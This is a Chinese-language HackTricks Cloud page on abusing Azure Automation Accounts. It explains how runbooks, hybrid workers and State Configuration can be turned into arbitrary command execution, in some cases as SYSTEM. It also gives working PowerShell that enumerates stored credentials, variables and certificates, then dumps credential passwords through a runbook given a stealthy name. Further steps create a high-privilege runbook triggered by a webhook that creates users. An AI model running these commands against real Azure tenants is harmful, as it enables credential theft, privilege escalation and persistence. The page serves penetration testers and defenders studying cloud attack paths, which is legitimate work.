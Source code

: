 # Az - Automation Account

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/overview) Azure Automation 提供基于云的自动化、操作系统更新和配置服务，支持在 Azure 和非 Azure 环境中进行一致的管理。它包括过程自动化、配置管理、更新管理、共享功能和异构特性。

这些就像 Azure 中的 "**计划任务**"，可以让你执行操作（动作或脚本）来 **管理**、检查和配置 **Azure 环境**。

### 运行账户

当使用 **运行账户** 时，它会创建一个带有自签名证书的 Azure AD **应用程序**，创建一个 **服务主体** 并为该账户在 **当前订阅** 中分配 **贡献者** 角色（拥有很多权限）。\
微软建议为自动化账户使用 **托管身份**。

{% hint style="warning" %}
这将在 2023 年 9 月 30 日 **被移除并更改为托管身份。**
{% endhint %}

## 运行书和作业

**运行书** 允许你 **执行任意 PowerShell** 代码。这可能会被 **攻击者滥用** 来窃取 **附加主体** 的权限（如果有的话）。\
在 **运行书** 的 **代码** 中，你还可能找到 **敏感信息**（如凭据）。

如果你可以 **读取** **作业**，请这样做，因为它们 **包含** 运行的 **输出**（潜在的 **敏感信息**）。

前往 `自动化账户` --> `<选择自动化账户>` --> `运行书/作业/混合工作者组/观察者任务/凭据/变量/证书/连接`

### 混合工作者

运行书可以在 **Azure 内的容器** 或 **混合工作者**（非 Azure 机器）中运行。\
**日志分析代理** 部署在 VM 上以将其注册为混合工作者。\
混合工作者作业在 Windows 上以 **SYSTEM** 身份运行，在 Linux 上以 **nxautomation** 账户运行。\
每个混合工作者都注册在 **混合工作者组** 中。

因此，如果你可以选择在 **Windows 混合工作者** 中运行 **运行书**，你将以 **System** 身份在外部机器上执行 **任意命令**（很好的转移技术）。

## 破坏状态配置 (SC)

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure Automation **状态配置** 是一种 Azure 配置管理服务，允许你为任何云或本地数据中心的节点编写、管理和编译 PowerShell 所需状态配置 (DSC) [配置](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)。该服务还导入 [DSC 资源](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)，并将配置分配给目标节点，所有操作均在云中进行。你可以通过在 Azure 门户中选择 **状态配置 (DSC)** 在 **配置管理** 下访问 Azure Automation 状态配置。

**敏感信息** 可能会在这些配置中找到。

### RCE

可以滥用 SC 在受管机器上运行任意脚本。

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 枚举

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### 创建一个 Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
{% endcode %}

### 通过运行簿从自动化帐户中提取凭据和变量

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
您可以通过修改现有的运行手册，并从网络控制台执行相同的操作。
{% endhint %}

### 设置自动化高权限用户创建的步骤

#### 1. 初始化自动化帐户

* **所需操作：** 创建一个新的自动化帐户。
* **特定设置：** 确保启用“创建 Azure Run As 帐户”。

#### 2. 导入并设置运行手册

* **来源：** 从 [MicroBurst GitHub Repository](https://github.com/NetSPI/MicroBurst) 下载示例运行手册。
* **所需操作：**
* 将运行手册导入到自动化帐户中。
* 发布运行手册以使其可执行。
* 将网络钩子附加到运行手册，启用外部触发。

#### 3. 配置 AzureAD 模块

* **所需操作：** 将 AzureAD 模块添加到自动化帐户中。
* **附加步骤：** 确保所有 Azure 自动化模块更新到最新版本。

#### 4. 权限分配

* **要分配的角色：**
* 用户管理员
* 订阅所有者
* **目标：** 将这些角色分配给自动化帐户以获得必要的权限。

#### 5. 注意潜在的访问丧失

* **注意：** 请注意，配置此类自动化可能会导致失去对订阅的控制。

#### 6. 触发用户创建

* 通过发送 POST 请求触发网络钩子以创建新用户。
* 使用提供的 PowerShell 脚本，确保将 `$uri` 替换为您的实际网络钩子 URL，并更新 `$AccountInfo` 以包含所需的用户名和密码。
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
